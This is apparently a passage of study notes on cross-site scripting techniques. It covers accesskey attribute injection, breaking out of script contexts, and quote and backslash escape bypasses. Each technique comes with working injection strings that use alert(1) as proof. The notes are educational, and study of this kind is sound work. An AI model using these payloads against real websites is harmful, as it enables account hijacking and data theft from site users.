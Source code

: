
##### Access Keys
There is a functionality which allows shortcut to be defined for an action, such as opening a link. An `accesskey` attribute can be set for the whole page and trigger an arbitrary command:
```
http://VICTIM-HOST?'accesskey='x'onclick='alert(1)
```
### XSS within JavaScript
This is a scenario where the XSS context is in some JS code. The attacker can break out of the script and perform arbitrary actions:
```
</script><img src=1 onerror=alert(1)>
```
This leaves the script broken, but the attacker code is still carried out. The context in which the user input is in can often be seen in the response, e.g.:
```
<script>
  var searchTerms = 'lolo\'lol';
  document.write('<img src="/resources/images/tracker.gif? 
  searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```
where it can also be seen which characters get escaped.

In case the string can be escaped, JS code can be carried out directly. For this, the script has to be "fixed" after escaping the string, because the script runs only if it works as a whole. Escaping can be done with:
```
'-alert(1)-'
';alert(1)//
```
The minus is "wrong" JS code in this situation, however, it can be used to separate commands between each other.

In the situation where quote characters are escaped with a backslash, it can still be that the backslash itself is not escaped. Therefore, the convertion looks like this:
```
\';alert(1)//

becomes

\\';alert(1)//
```
In case the `replace()` function is encountered, it is worth knowing that without porper matching, only the first occurance will be matched. This means an attacker can just submit the characters that will be replaced as a prefix.

#### HTML Encoding
Let there be the following scenario:
  * The XSS context is
    `<a href"#" onclick=" ... var input='controllable data'; ...">`
  * The app blocks or escapes single quote characters
  * The workflow is:
	  * Parse out the HTML tags and attributes
	  * HTML decoding of tag attribute values
	  * Further processing (running JS code)
